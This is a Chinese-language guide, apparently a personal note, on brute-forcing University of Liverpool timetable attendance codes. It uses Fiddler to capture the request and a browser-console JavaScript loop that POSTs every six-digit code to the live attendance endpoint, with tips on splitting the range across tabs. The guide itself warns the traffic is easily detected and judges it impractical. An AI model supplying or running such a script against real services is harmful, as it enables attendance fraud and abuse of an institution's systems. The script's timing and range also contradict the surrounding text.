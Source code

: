# UoL - Attendance Code 爆破

<aside>
💡 **请谨慎使用**
此方法极易被检测到异常流量
不清楚现在及未来 管理员是否会针对该方法

</aside>

# 0. Intro

## 0.1 原理

---

通过浏览器开发人员控制台, 执行JS爆破

抓包, 模拟请求

由于涉及到 SSL证书 等操作, 这个方法比写程序容易操作很多, 无论是编写还是执行

## 0.2 可行性

---

执行时需要手动分成多个线程进行爆破, 每100000的耗时在2.78h左右 (间隔100ms)

据观察, 没有0开头的6位签到码

所以从100000-999999分成18组, 每组50000个, 并行爆破 

理想情况下, 仍需要1.3h

<aside>
💡 实测可行性不高

</aside>

# 1. 步骤

## 1.1 初始化准备

---

1. 浏览器
2. 抓包工具 (以 `Fiddler` 为例)

## 1.2 准备数据 (手动操作一遍, 获取请求信息)

---

1. 浏览器打开 Timetable
    
    [Sign In](https://timetables.liverpool.ac.uk/)
    
2. 打开 Fiddler
3. 进入timetable, 打开指定课程, 输入一次签到码
4. 切换回 Fiddler, 从左侧列表中的 `Host` 列, 找到 `timetables.liverpoo.ac.uk` 且其对应的  `URL`   列显示为 `/services/register-attendance-student` , 双击该行
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3a352054-ceaa-444b-a420-1b33e16e0047/c0e70c2e-df67-4058-b784-bb332f4e7c0a/Untitled.png)
    

## 1.3 构建脚本数据

---

1. 选中 Fiddler 左侧行后, 右侧会显示 该数据包相关信息
2. 点击 `raw` 选项卡, 里边最后一行就是数据正
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3a352054-ceaa-444b-a420-1b33e16e0047/9239a0a9-890c-4a94-9410-f59c8f88b11f/Untitled.png)
    
3. 从里边提取对应字段, 替换下方脚本代码 `body` 对应字段
    
    ```
    async function sendRequests() {
      // let i = 0; i <= 99999; i++ 好像没有0开头的
      // let i = 100000; i <= 149999; i++
      // let i = 150000; i <= 199999; i++
      // let i = 200000; i <= 249999; i++
      // let i = 250000; i <= 299999; i++
      // let i = 300000; i <= 349999; i++
      // let i = 350000; i <= 399999; i++
      // let i = 400000; i <= 449999; i++
      // let i = 450000; i <= 499999; i++
      // let i = 500000; i <= 549999; i++
      // let i = 550000; i <= 599999; i++
      // let i = 600000; i <= 649999; i++
      // let i = 650000; i <= 699999; i++
      // let i = 700000; i <= 749999; i++
      // let i = 750000; i <= 799999; i++
      // let i = 800000; i <= 849999; i++
      // let i = 850000; i <= 899999; i++
      // let i = 900000; i <= 949999; i++
      // let i = 950000; i <= 999999; i++
      for (let i = 0; i <= 999999; i++) {
        let attCodeInputValue = i.toString().padStart(6, "0");
    
        try {
          const response = await fetch(
            "https://timetables.liverpool.ac.uk/services/register-attendance-student",
            {
              method: "POST",
              headers: {
                "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
              },
              // 此处做替换
              body: `attCodeInput=${attCodeInputValue}&
              uniqueId=your_uniqueid&actId=your_actid&attStart=your_attStart&attEnd=your_attEnd&location=your_location`,
            }
          );
    
          if (!response.ok) {
            throw new Error(`HTTP error! status: ${response.status}`);
          }
    
          const data = await response.json();
          console.log(data);
        } catch (error) {
          console.error("Error:", error);
        }
    
        await new Promise((resolve) => setTimeout(resolve, 500)); 
      }
    }
    
    sendRequests();
    ```
    

## 1.4 发送数据

---

<aside>
💡 该步骤需要尽量细分 (多新建选项卡, 多分割代码区间)

</aside>

1. 切换回浏览器的Timetable选项卡
2. 按 `F12` 打开开发者控制台
3. 切换到 `console` 选项卡
4. 粘贴你刚刚构建好的脚本, 回车执行